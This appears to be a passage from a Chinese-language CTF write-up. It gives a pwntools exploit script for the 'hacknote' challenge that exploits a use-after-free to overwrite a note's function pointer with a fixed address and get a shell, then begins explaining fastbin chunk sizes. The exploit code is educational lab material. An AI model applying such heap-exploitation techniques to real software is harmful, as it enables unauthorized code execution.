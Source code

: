 `exp`如下：

```python
from pwn import *

context(log_level='debug')
sh = process('./hacknote')
elf = ELF('./hacknote')
libc = elf.libc

def debug():
    pid = util.proc.pidof(sh)[0]
    print('pid:{}'.format(pid))
    gdb.attach(pid)
    pause()

def add_note(size, content):
    sh.recvuntil('Your choice :')
    sh.sendline('1')
    sh.recvuntil('Note size :')
    sh.sendline(str(size))
    sh.recvuntil('Content :')
    sh.sendline(content)

def delete_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('2')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

def print_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('3')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

add_note(0x10, 'test')
add_note(0x10, 'what')
delete_note(0)
delete_note(1)
# debug()
add_note(0x8, p32(0x08048986))
print_note(0)
sh.interactive()
```

## fastbin attack

首先要知道`fastbin`的`chunk`的大小范围。

> 32位下，fastbin chunk的范围是16字节 - 64字节（0x10 - 0x40）
>
> 64位下，fastbin chunk的范围是32字节-128字节（0x20 - 0x80）
>
> 注意，这是加上header的大小。
